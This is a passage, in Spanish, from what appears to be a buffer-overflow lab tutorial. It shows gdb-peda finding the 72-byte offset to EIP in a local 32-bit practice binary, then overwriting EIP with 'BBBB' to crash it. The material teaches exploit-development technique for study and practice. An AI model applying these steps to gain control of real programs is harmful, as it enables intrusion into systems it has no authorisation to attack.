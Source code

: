 Buscamos la longitud donde se sobreescribe el registro `EIP`.

```
gdb-peda$ pattern search 
Registers contain pattern buffer:
EBX+0 found at offset: 64
EBP+0 found at offset: 68
EIP+0 found at offset: 72
Registers point to pattern buffer:
[EAX] --> offset 0 - size ~100
[ECX] --> offset 95 - size ~5
[EDX] --> offset 95 - size ~5
[ESP] --> offset 76 - size ~24
Pattern buffer found at:
0xbffff0d8 : offset    0 - size  100 ($sp + -0x4c [-19 dwords])
0xbffff3b1 : offset    0 - size  100 ($sp + 0x28d [163 dwords])
References to pattern buffer found at:
0xbffff0b8 : 0xbffff0d8 ($sp + -0x6c [-27 dwords])
0xbffff0d0 : 0xbffff0d8 ($sp + -0x54 [-21 dwords])
0xbffff0d4 : 0xbffff3b1 ($sp + -0x50 [-20 dwords])
0xbffff1d8 : 0xbffff3b1 ($sp + 0xb4 [45 dwords])
```

## Sobreescribir EIP

```
gdb-peda$ r $(python -c "print 'A'*72 + 'B'*4 + 'C'*200")
Starting program: /home/noroot/Escritorio/buffer32/buff $(python -c "print 'A'*72 + 'B'*4 + 'C'*200")

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xbffff028 ('A' <repeats 72 times>, "BBBB", 'C' <repeats 124 times>...)
EBX: 0x41414141 ('AAAA')
ECX: 0xbffff410 ("CCCCC")
EDX: 0xbffff137 ("CCCCC")
ESI: 0xb7fb2000 --> 0x1e4d6c 
EDI: 0xb7fb2000 --> 0x1e4d6c 
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff074 ('C' <repeats 200 times>)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xbffff074 ('C' <repeats 200 times>)
0004| 0xbffff078 ('C' <repeats 196 times>)
0008| 0xbffff07c ('C' <repeats 192 times>)
0012| 0xbffff080 ('C' <repeats 188 times>)
0016| 0xbffff084 ('C' <repeats 184 times>)
0020| 0xbffff088 ('C' <repeats 180 times>)
0024| 0xbffff08c ('C' <repeats 176 times>)
0028| 0xbffff090 ('C' <repeats 172 times>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```
